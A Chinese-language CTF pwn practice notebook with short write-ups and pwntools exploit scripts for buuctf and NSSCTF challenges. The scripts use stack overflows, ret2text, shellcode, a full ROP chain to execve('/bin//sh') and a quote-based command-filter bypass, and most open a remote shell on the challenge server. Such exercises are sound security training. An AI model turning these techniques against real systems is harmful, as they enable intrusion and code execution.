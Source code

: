 # CTF Pwn 刷题

## buuctf 

### picoctf 2018 buffer_overflow 0
- 知识点：栈溢出
- 代码逻辑：通过观察函数逻辑发现flag.txt文件已经被放入全局变量flag中，因此只需要考虑调用puts函数输出flag即可
```
from pwn import *

p = remote('node5.buuoj.cn', 29495)
elf = ELF('./PicoCTF_2018_buffer_overflow_0')
flag_addr = 0x804A080
puts_addr = elf.symbols['puts']
payload = b'a' * (0x18 + 4) + p32(puts_addr) + p32(0) + p32(flag_addr)
print(payload)

```
### mrctf 2020 easy_overflow
- 
- payload
```
from pwn import *

p = remote('node5.buuoj.cn', 27749)
v5 = "ju3t_@_f@k3_f1@g"
print(len(v5))
fake_flag = "n0t_r3@11y_f1@g"
print(len(fake_flag))
payload = b'a' * 48 + b'n0t_r3@11y_f1@g'
p.sendline(payload)
p.interactive()

```

### picoctf 2018 shellcode

- payload
```
from pwn import *

p = remote('node5.buuoj.cn', 26988)
elf = ELF('./PicoCTF_2018_shellcode')
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
print(shellcode)
p.sendline(shellcode)
p.interactive()
```

### wustctf 2020 getshell 2
- 知识点：栈溢出、ROPgadget使用、shell命令
- 函数流程
- 注意点
1. 这道题获取system函数地址不能用plt地址，因为plt需要返回地址，占用四个字节后会超过栈空间，所以直接使用call _system的地址
2. 二进制程序中不存在/bin/sh字符串，可以用sh字符串平替
```
from pwn import *

p = remote('node5.buuoj.cn', 28992)
sh_addr = 0x08048670
elf = ELF('./wustctf2020_getshell_2')
# system_addr = elf.symbols['system']
system_addr = 0x08048529
# main_addr = elf.got['system']
print(hex(system_addr))
# print(hex(main_addr))
payload = b'a' * (0x18 + 4) + p32(system_addr) + p32(sh_addr)
p.sendline(payload)
p.interactive()

```

### ciscn_2019_es_2
- 知识点：栈迁移
- 栈迁移原理：首先进行栈溢出将ebp修改为目标地址，即需要迁移的地址
- 栈迁移的核心利用要点是找到leave; ret指令


### buu DASBOOK ROP
- 知识点：64位程序栈溢出、参数传递
- payload
```
from pwn import *

p = remote('node4.buuoj.cn', 27902)
elf = ELF('./rop')
bin_sh_addr = 0x601048
system_addr = elf.symbols['system']
print(hex(system_addr))
pop_rdi_addr = 0x400663
payload = b'a' * (0x20 + 8) + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```

### inndy_rop
- 知识点：栈溢出、静态链接、ROPgadget工具使用
- 重要命令：
```
ROPgadget --binary rop --ropchain
```
- payload
```
from struct import pack
from pwn import remote

io = remote('node5.buuoj.cn', 29622)
# Padding goes here
p = b'a' * (0xC + 4)

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

io.send(p)
io.interactive()

```
### rip
- 知识点： 64位程序栈溢出、栈对齐
- payload
```
from pwn import *

p = remote("node4.buuoj.cn", 25693)
payload = b'a' * 15 + p64(0x401186)
p.sendline(payload)
p.interactive()

```

### bjdctf 2020 babystack
- 知识点：栈溢出
- payload
```
from pwn import *

p = remote('node4.buuoj.cn', 27735)
payload = b'a' * 24 + p64(0x4006E6)
p.sendlineafter(b"name:", "40")
p.sendlineafter(b"name?", payload)
p.interactive()

```








## NSSCTF

### CISCN 2019华北 pwn1

- 知识点：栈溢出、浮点数存储和转化为16进制字节、字节对齐
- 
- payload

```
from pwn import *
import struct

elf = ELF('./CISCN 2019华北PWN1')
p = remote('node4.anna.nssctf.cn', 28336)
# 要发送的小数
float_number = 11.28125

# 将小数转换为字节
byte_data = struct.pack('f', float_number).ljust(8, b'\x00')
print(byte_data)

payload = b'a' * 44 + byte_data
p.sendline(payload)
p.interactive()

```
### GDOUCTF 2023 ezshellcode
- 知识点： shellcode编写、ret2shellcode、栈溢出
- payload
```

```

### NSSCTF 2024秋季赛招新 nocat
- 知识点：linuxcat命令绕过方法：连接符绕过
- payload
```
c'a't flag
```

### NSSCTF 2024秋季招新赛 兄弟你的环境好香
- 知识点：64位程序栈内存对齐
- payload
```
from pwn import *

p = remote('node6.anna.nssctf.cn', 29421)
payload = b'a' * (0x50 + 8) + p64(0x4011F8) + p64(0x4011DD)
p.sendlineafter(b'Do you know stack alignment?', payload)
p.interactive()

```







